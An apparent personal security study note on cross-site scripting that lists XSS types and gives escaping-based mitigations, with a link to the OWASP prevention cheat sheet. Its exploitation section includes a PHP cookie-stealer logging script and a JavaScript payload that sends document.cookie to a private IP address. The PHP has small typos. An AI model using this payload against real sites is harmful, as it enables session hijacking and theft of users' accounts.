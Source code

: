 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```


## Exploitation
- Session Hijacking
  - Cookie Stealer (PHP for Apache web server)
```PHP
<?php
$Cookie=$_GET[‘txt’];
$log=”Cookie=$cookie\r\n”;
$f=fopen(“log.txt”,”a”);
fwrite($f,$log);
?>
```
  - XSS Payload
```javascript
<script>window.location=”http://192.168.1.16/cookie1.php?txt=” + document.cookie;</script>
```
- Fake Page
  - g

- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
